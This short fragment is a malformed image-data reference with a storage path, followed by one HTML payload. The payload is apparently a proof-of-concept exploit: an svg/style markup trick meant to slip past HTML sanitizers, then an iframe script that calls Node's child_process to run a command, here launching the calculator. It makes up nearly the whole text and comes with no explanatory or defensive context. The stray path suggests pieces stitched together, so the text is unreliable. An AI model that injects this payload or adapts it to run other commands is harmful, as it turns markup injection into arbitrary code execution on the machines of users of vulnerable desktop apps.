 <div><svg><style></svg><iframe srcdoc="<script>top.require('child_process').execSync('calc')</script>"></iframe></div>